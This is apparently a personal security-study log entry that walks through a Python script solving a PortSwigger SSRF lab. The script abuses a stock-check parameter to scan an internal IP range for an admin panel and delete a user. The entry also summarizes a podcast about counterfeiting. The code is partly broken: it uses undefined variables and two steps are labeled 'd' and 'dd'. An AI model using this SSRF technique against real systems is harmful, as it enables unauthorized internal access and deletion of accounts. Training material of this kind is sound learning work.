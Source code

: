 "The mind is everything. What you think you become." - Buddha

# Day-15 Summary:

### Things Done Today:

- Was supposed to complete the Pivoting sub-topic in Wreath Network, but understanding python code for SSRF lab #2 consumed most of my day, so instead of that, I listend to Darknet Diaries Ep 102. 

- [X] **SSRF Lab #2:** [Web-Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
  - Done with lab#2 today: It was pretty easy and understanding to the python code was a bit difficult, I mean it took time [Check out the full code in good format here], which I'm gonna tryna explain you people here below.
  - Goal of the lab: use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. Now first we have to define the main method, here we have to write what we want to execute for the whole program. So here, if user input is not equal to 2, if will exit the program otherwise will continue with the same. Next we are asking for users to input the <url> and saving that <url> in the "url" variable [confused? lol], then in order to find the correct admin ip address, we make a variable for the same and assign "check_admin_hostname(url)" [Now got to the point 3, read that and come back] So now that you understood what we did there, next up, once we got the admin correct address, we gotta delete the user carlos, right? [Now check point 4, where we defined the same]. Yea, That's what we did here in this piece of code.

```
if __name__ == "__main__":
    main()

def main():
    if len(sys.argv) !=2:
        print("(+) Usage %s <url>" % sys.argv[0])
        print("(+) Example: %s Th3lazykid.gitbook.io" % sys.argv[0])
        

    url = sys.argv[1]
    print("(+) Findin admin hostname")
    admin_ip_address = check_admin_hostname(url)
    print("(+) Found the admin ip address: %s" % admin_ip_address)
    print("(+) Deleting Carlos user...")
    delete_user(url, admin_ip_address)
```

3. d

```
def check_admin_hostname(url):
    check_stock_path = "/product/stock"
    admin_hostname = ''
    for i in range(1, 256):
        hostname = "http://192.168.0.%s:8080/admin" %i
        params = {'stockApi': hostname}
        r = requests.post(url + check_stock_path, data=params, proxies=proxies, verify=False)
        if r.status_code == 200:
            admin_ip_address = '192.168.0.%s' %i
            break
    if admin_ip_address == '':
        print("(-) Could not find admin hostname.")
    return admin_ip_address
```

4. dd

```
def delete_user(url, admin_ip_address):
    check_stock_path = "/product/stock"
    payload = 'http://%s:8080/admin/delete?username=carlos' % admin_ip_address
    params = {'stockApi': payload}
    r = requests.post(url + check_stock_path, data=params, proxies=proxies, verify=False)
    
    #Now checking if the user carlos actually got deleted.
    payload2 =  'http://%s:8080/admin/' % admin_ip_address
    params2 = {'stockApi': payload2}
    r = requests.post(url + check_stock_path, data=params2, proxies=proxies, verify=False)
    if 'User deleted successfully' in r.text:
        print("(+) Successfully deleted Carlos user")
    else:
        print("(-) Exploit was unsuccessful.")

def main():
    if len(sys.argv) !=2:
        print("(+) Usage %s <url>" % sys.argv[0])
        print("(+) Example: %s Th3lazykid.gitbook.io" % sys.argv[0])
```
- [X] **Darknet Diaries:**

  - [EP 102: Money Maker](https://darknetdiaries.com/episode/102/): Such a amazing story of Frank Bourassa, how he started re-selling stolen clothes to making $250 million fake money - $20 US bills. Counterfeiting money is really complex process, getting paper, ink, printers, etc. Loved how he made up the story and got the papers needed to make the fake money, which is to be considered the hardest part in the whole process. Listen to the podcast to know how he got caught and how his lawyer used "Big Brains", that saved him from getting 60 years around of prision but instead just $1500 fine. 

<img width="986" alt="Screenshot 2021-10-13 at 9 04 46 AM" src="https://user-images.githubusercontent.com/56188454/137075127-22b93151-a6c7-41f3-b27e-e87093eb7055.png">
<img width="993" alt="Screenshot 2021-10-13 at 9 13 14 AM" src="https://user-images.githubusercontent.com/56188454/137075137-f254f903-6921-4d46-8e7b-d92cbf00dbfe.png">
